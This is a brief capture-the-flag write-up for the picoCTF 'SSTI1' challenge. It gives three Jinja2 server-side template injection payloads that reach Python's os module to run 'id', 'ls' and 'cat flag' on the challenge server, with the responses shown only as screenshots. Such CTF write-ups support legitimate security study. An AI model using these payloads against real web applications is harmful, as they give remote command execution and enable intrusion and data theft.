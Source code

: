 # SSTI1 

[Challenge](https://play.picoctf.org/practice/challenge/492?category=1&originalEvent=74&page=1)



<img width="963" alt="Screenshot 2025-05-03 at 3 42 12 PM" src="https://github.com/user-attachments/assets/75a9624f-58b8-4881-ab06-93764d64db02" />

---

use this payload: ```{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}```

response:

<img width="1217" alt="Screenshot 2025-05-03 at 3 42 21 PM" src="https://github.com/user-attachments/assets/01d50c53-ac9b-40c0-a7bd-fee74f8a2865" />

---

```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```

response:

<img width="1245" alt="Screenshot 2025-05-03 at 3 42 42 PM" src="https://github.com/user-attachments/assets/99e3eab9-c92d-41a2-85d9-b3e35fdabe62" />

---

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

response:

<img width="1256" alt="Screenshot 2025-05-03 at 3 43 05 PM" src="https://github.com/user-attachments/assets/8f57f873-4d13-457d-8fbc-1f1451c714e1" />

---
